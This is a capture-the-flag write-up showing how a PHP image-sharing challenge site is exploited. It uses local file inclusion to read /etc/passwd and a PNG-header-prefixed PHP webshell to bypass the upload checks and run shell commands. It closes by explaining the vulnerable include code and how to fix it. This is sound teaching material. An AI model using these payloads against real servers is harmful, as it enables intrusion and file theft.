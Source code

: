 # Local Fun Inclusion

The [challenge website](http://lfi.hax1.allesctf.net:8081/) seems to be a service where we can upload images to share them with others.

Trying it out with a random image we get back an URL where the image was uploaded to:
```
http://lfi.hax1.allesctf.net:8081/index.php?site=view.php&image=uploads/4780d8b48598c1026ab47aaf008c08e4.jpg
```

Taking a closer look at the URL it looks like the images are uploaded to a subdirectory called `uploads` and given a random name.

We can also see that the page is still `index.php` but it also includes `view.php` with the `site` parameter.
This seems like a classic Local File inclusion and given the name of the challenge, this is likely the way to go.

So let's try to include something else than `view.php`.
`/etc/passwd` should exist on the server, so let's just try that: <http://lfi.hax1.allesctf.net:8081/index.php?site=/etc/passwd>.

And indeed we get back something that looks like `/etc/passwd` embedded on the page.

So maybe we can upload our own `.php` file to the server using the upload functionality and then include that file.
Then we could execute arbitrary code. Lets just try listing the files in the current directory:
```
$ cat exploit.php
<?php echo shell_exec('ls'); ?>
```

However, when we try to upload that file we get an error: `Invalid image extension!`

Trying to change the file extension to `.png` still gives an error: `Only pictures allowed!`

It looks like the server also checks the content of the file.
Maybe we can trick it by adding a small `PNG`-header to the start of the file.
Lets just take a few bytes from a random `.png` file and prepend it to the `.php` file.
```
$ head random.png -c 9 | cat - exploit.php > exploit.png
```

This shouldn't make a difference for execution because `php` ignores everything outside the `<?php ?>` tag.

And indeed this works! The server now thinks the file is an image and lets us upload it.
We can now include that uploaded file with <http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/3cb3862a5151d99c7cc42a444f2bac15.png>
and we can see the output of the `ls` command after some garbage characters (the `PNG` header):
```
�PNG  css flag.php index.php js upload.php uploads view.php
```

`flag.php` looks interesting, but including it directly doesn't show anything.
But we can just upload another file that prints the content of `flag.php`:
```
<?php echo shell_exec('cat flag.php'); ?>
```

We don't immediately see anything in the browser but looking at the source code we finally find the flag:
```
$FLAG = "CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}";
```

We can also use the same way to have a look at the `index.php` file and see what the problem is:
```
<?php
    $site = $_GET["site"];
    if (!isset($site))
    {
        $site = "upload.php";
    }
    if (file_exists($site) && $site != "index.php")
    {
        include($site);
    }
    else
    {
        echo '<div class="container"><div class="alert alert-danger" role="alert">Site "' . htmlspecialchars($site) . '" cant be included!</div>';
    }
?>
```

The pages just includes the file given by the user-specified `GET`-parameter `site`.
Letting users include arbitrary files is obviously never a good idea.
This can be used to leak all files that the webserver has access to
and in this case, it's especially bad because the file even gets executed as PHP code.

Even when users can't easily upload files to the server this is a bad idea.
Attackers can still leak all files on the server and it might still be possible
to execute arbitrary code by for example sending a request with PHP-code in the URL
and later including server log files that will then contain the code.

Generally `include` and similar functions should never be used with a filename that
can be controller by a user. Instead, a user-given parameter can be used to look up
the correct filename to include from a dictionary. This is also better than simply
checking the filename, which is prone to bugs.
